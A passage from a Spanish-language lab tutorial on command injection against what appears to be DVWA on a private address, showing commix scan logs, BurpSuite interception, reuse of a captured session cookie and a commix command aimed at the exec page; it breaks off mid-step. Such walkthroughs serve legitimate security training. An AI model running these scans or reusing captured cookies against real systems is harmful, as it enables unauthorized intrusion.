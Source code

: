 ```
[04:32:04] [info] Testing the (results-based) dynamic code evaluation technique.           
[04:32:04] [warning] It is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions.
[04:32:48] [info] Testing the (blind) time-based command injection technique.           
It seems that you don't have permissions to read and/or write files in directory '/var/www/192.168.5.211/public_html/'.
Do you want to use the temporary directory ('/tmp/')? [Y/n] > 
[04:33:07] [info] Trying to create a file in directory '/tmp/' for command execution output. 
[04:33:07] [warning] It is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions.
[04:33:52] [info] Testing the (semi-blind) tempfile-based injection technique.           
[04:34:19] [info] Testing the (semi-blind) file-based command injection technique.           
[04:34:19] [warning] The tested HTTP Header parameter 'referer' does not seem to be injectable.
[04:34:19] [critical] All tested parameters do not appear to be injectable. If you suspect that there is some kind of protection mechanism involved, maybe you could try to use option '--tamper' and/or switch '--random-agent'.
```

Si nosotros paramos esta peticion con un `proxy` como puede ser `BurpSuite` vemos que en el `User-agent:` nos esta metiendo payloads los cuales es para ver si se puede ejeuctar comandos en el sistema victima.

Pero en este caso no encontramos ningun campo injectable.

Lo que podemos hacer para que nos detecte la aplicacion que estamos autenticados con la herramienta `commix` como antes hemos intentado hacer en la `URL` de la seccion de `Command Injection` podremos hacerlo de la siguiente forma:

Tendremos que abrir `BurpSuite` y en la seccion de `Proxy` darle a `Open Browser`, metemos la direccion de la pagina y nos logearemos, nos iremoa a la seccion de `Command Injection` y pondremos a `BurpSuite` a escucha cualquier peticion, recragamos la pagina y como podremos ver en la peticion capturada esta la `Cookie` de sesion que es la que podremos utilizar para que se nos autentique y asi no nos redireccione al `login`.

> Cookie

```
PHPSESSID=208meqdlm53fcn13t35sbrbqf4; security=low
```

Teniendo la `Cookie` copiada haremos lo siguiente:

```shell
commix -u http://192.168.5.211:1335/vulnerabilities/exec --cookie="PHPSESSID=208meqdlm53fcn13t35sbrbqf4; security=low"
```

Ahora esto no nos va a dar error y nos va a direccionar a la pagina correcta, pero no va a encontrar nada ya que va a escanear la peticion de `HTTP`, pero el campo que queremos que escane esta en el `Body`, por lo que tendremos que hacer lo siguiente:

Capturaremos la peticion con `BurpSuite` para ver como es el campo que se esta poniendo en el `Body` enviando la peticion de la seccion de `Command Injection` poniendo una `IP` cualquiera y cuando capturemos la peticion veremos que el campo es el siguiente:

> Campo Body
